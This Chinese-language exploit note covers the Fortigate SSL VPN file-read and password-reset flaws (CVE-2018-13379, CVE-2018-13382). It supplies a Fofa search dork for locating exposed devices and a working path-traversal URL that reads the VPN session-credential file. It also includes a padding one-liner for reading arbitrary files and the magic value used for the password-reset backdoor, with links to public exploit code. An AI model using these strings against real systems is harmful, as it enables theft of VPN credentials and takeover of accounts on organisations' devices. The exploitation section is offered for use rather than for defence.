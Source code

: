 Fortigate SSL VPN 文件读取/远程代码执行
=============================

  

**1.** **漏洞简介**

  

Fortigate SSL VPN 在全球用户量巨大, 去年橘子哥发现了文件读取和远程代码执行漏洞

  

**2.** **影响组件**  
Fortigate SSL VPN

  

**3.** **漏洞指纹**

Fortigate

4tinet2095866

  

**4. Fofa Dork**

"Fortigate" && port=10443

  

**5.** **漏洞分析**

Orange: Attacking SSL VPN – Part 2: Breaking the Fortigate SSL VPN  
https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html?m=1

  

**6.** **漏洞利用**

密码读取

milo2012/CVE-2018-13379: CVE-2018-13379  
https://github.com/milo2012/CVE-2018-13379

任意密码重置, 这肯定是个后门

milo2012/CVE-2018-13382: CVE-2018-13382  
https://github.com/milo2012/CVE-2018-13382

  

**7.** **利用技巧**

1.文件读取的路径构造

https://xxxxxx:10443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession

如下padding可以构造出来任意文件读取, 可以读取其他文件, 注意这个系统好像没有/etc/passwd print("/../../../../"+(raw_input().rjust(35, '/')))

  

2.寻找魔术数字

虽然当时橘子哥没有公开魔术数字, 但是当时随手分析了一下下面这个启动文件, 搜索一下magic就找到 4tinet2095866,

https://xxxxxxxx:10443/remote/fgt_lang?lang=/../../../../////////////////////////bin/sslvpnd
